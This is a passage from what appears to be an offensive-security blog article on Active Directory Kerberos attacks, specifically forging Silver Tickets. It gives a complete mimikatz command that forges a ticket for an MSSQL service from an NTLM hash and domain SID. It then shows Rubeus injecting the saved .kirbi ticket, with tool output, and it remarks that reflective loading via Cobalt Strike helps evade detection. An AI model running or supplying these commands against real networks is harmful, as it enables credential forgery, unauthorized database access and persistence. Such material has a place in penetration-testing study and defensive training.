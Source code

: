 



**Service Account Hash Example**

As I mentioned above let's say we have the `NTLM` hash of a Service Account (MSSQL) we can create a Silver Ticket for said User and then start issue SQL Commands to a Database providing the Database accepts Kerberos authentication (Most likely will)



```powershell
mimikatz.exe
prvilege::debug

kerberos::golden /id:1106 /domain:m0chanAD.local /sid:S-1-5-21-1473643419-774954089-2222323452 /target:sqlserver.m0chanAD.local /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:MSSQLSvc /user:m0chanFake /ptt
```



**PTT**

As you can see in the above examples I have applied the `/ptt` flag which will automatically inject the ticket into my current session but we can choose to output it to a file with the `/ticket` flag which will output a `ticket.kirbi` file by default unless directly specified.



We can then use this `kirbi` ticket for a certain level of persistence and/or inject them with Rubeus which Iw ill display below.



#### [](#header-4)Injecting Ticket with Rubeus



> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it's reflectively loaded using something like Cobalt's `execute-assembly` or `SILENTTRINITY` You can also reflectively load it from PowerShell but I will be covering `.NET` in greater detail in a future article. 
>
> https://github.com/GhostPack/Rubeus



As we have discussed Rubeus loads in this article already under `Kerberoasting` and `AS REP` I will jump straight to the chase. 



We can use Rubeus to inject Silver Tickets into our session by 2 methods, `.kirbi` file or a Base64 of said `.kirbi` file which I find very useful.



Inject `.kirbi` from Disk

```powershell
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```